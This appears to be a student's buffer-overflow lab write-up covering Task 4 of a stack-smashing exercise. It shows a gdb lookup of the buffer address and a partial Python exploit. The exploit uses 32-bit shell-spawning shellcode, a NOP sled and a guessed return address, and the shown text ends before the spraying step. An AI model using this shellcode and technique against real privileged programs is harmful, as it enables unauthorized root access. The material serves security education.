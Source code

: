 We can observe that I gained root access when running the `stack-L1`.


---


### Task 4

Similar to Task 3, I ran `makefile` to generate `stack-l2-dbg` for debugging with `gdb`

added break at `bof`

![](attachment/7d15c0cd9d0af706bbc691276a79ec05.png)

buffer value:

```bash
gdb-peda$ p &buffer
$1 = (char (*)[160]) 0xffffca80
```

- in `exploit.py`, added the shellcode for 32 bit.
- instead of adding the shellcode at the start of bad file, I'll add at the end of badfile.
- I need to jump high enough to go inside NOP. So return address would be beginning of buffer + 300 (trying this)
- Offset is also not needed.
- Need to put return the address in many places to spray the entire address with our return address.

```python
#!/usr/bin/python3
import sys

shellcode = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
# start = 400    #not needed for task 4           # Change this number 
content[517 - len(shellcode): ] = shellcode # adding shellcode at end of badfile

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca80 + 300       #I need to jump high enough to go inside NOP. Beginning of buffer + 300
# offset = 112              # Change this number 


L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

# spray the entire address with our return address.
```